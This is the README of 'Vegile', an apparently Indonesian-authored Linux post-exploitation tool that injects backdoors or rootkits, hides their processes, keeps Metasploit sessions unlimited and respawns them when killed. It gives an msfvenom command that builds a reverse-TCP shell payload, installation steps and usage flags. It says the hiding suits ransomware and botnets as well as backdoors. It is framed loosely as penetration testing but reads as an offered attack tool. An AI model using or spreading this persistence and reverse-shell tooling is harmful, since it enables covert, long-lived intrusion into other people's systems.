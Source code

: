 # Vegile - Ghost In The Shell

[![Version](https://img.shields.io/badge/Vegile-Beta-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Stable-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

**Vegile** is a tool for **Post exploitation** Techniquesin linux. **Post Exploitation** techniques will ensure that we maintain some level of **access and can potentially** lead to **deeper** footholds into our targets **trusted network**.

### Donate
- If this project very help you to penetration testing  and u want support me , you can give me a cup of coffee :)
- [![Donation](https://img.shields.io/badge/bitcoin-donate-yellow.svg)](https://blockchain.info/id/address/1NuNTXo7Aato7XguFkvwYnTAFV2immXmjS)

## :book: How it works

This tool will setting up your **backdoor/rootkits**
when backdoor already setup it will be **hidden your spesisifc process** ,**unlimited** your **session** in metasploit and transparent.
Even when it **killed**,it will **re-run again** . There always be a procces which while **run** another process,
So we can assume that this procces is **unstopable** like a **Ghost in The Shell**

#### READ THIS

- right now i just tested backdoor with msfvenom command using reverse_shell [ **its work** ] 
- **msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=IP LPORT=PORT -b "\x00" -f elf -o NAME_BACKDOOR**
- for hidden process you can use for **rootkits,backdoor,ransom and botnet** { sh,python,perl,exe and binary }.
- Victim  target all linux distribution include ( **base32** and **base64** in their system ) 



## Getting Started
1. ```git clone https://github.com/Screetsec/Vegile.git```
2. ```cd Vegile```
3. ```chmod +x Vegile```

## Using Vegile
Running Vegile without any parameters will give a helpful list of the most common options. you can use command : 

- Vegile -i / --inject  [backdoor/rootkit]
- Vegile -u / --unlimited [backdoor/rootkit]
- Vegile -h / --help 


## :octocat: Credits

- Thanks to allah 
- Dracos Linux from Scratch Indonesia ( Awesome Penetration os ), you can see in http://dracos-linux.org/ 
- WingkoColi , Reversing ID , IndoXploit , Backbox Indonesia and Indonesia Backtrack Team .
- Offensive Security for the awesome OS ( http://www.offensive-security.com/ )
- http://www.kali.org/ Kali Linux
- www.github.com/gianlucaborello to give a reference 
- And another open sources tool in github



## Disclaimer

***Note: modifications, changes, or alterations to this sourcecode is acceptable, however,any public releases utilizing this code must be approved by writen this tool ( Edo -m- ).***
